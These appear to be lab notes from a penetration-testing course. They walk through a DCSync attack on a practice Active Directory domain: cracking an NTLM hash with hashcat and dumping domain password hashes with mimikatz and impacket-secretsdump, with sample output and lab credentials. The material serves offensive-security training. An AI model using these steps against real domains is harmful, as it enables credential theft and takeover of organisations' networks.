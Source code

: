 # Now, let's copy the NTLM hash and store it in a file named hashes.dcsync on our Kali system. We can then crack the hash using Hashcat as we learned in the Password Attacks Module. We'll enter 1000 as mode, rockyou.txt as wordlist, and best64.rule as rule file. Additionally, we will enter the file containing the NTLM hash and --force, since we run Hashcat in a VM.

hashcat -m 1000 hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
...
08d7a47a6f9f66b97b1bae4178747494:Flowers1          
Session..........: hashcat
Status...........: Cracked
...

# We can now obtain the NTLM hash of any domain user account of the domain corp.com. Furthermore, we can attempt to crack these hashes and retrieve the plaintext passwords of these accounts.

# Notably, we can perform the dcsync attack to obtain any user password hash in the domain, even the domain administrator Administrator.

mimikatz # lsadump::dcsync /user:corp\Administrator
...
Credentials:
  Hash NTLM: 2892d26cdf84d7a70e2eb3b9f05c425e
...

# Perform the dcsync attack from Linux as well. We'll use impacket-secretsdump to acheive this. To launch it, we'll enter the target username dave as an argument for -just-dc-user and provide the credentials of a user with the required rights, as well as the IP of the domain controller in the format domain/user:password@ip.
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.221.70
...
[*] Using the DRSUAPI method to get NTDS.DIT secrets
dave:1103:aad3b435b51404eeaad3b435b51404ee:08d7a47a6f9f66b97b1bae4178747494:::
...

# Above shows that we successfully obtained the NTLM hash of dave. The output of the tool states that it uses DRSUAPI,6 the Microsoft API implementing the Directory Replication Service Remote Protocol.
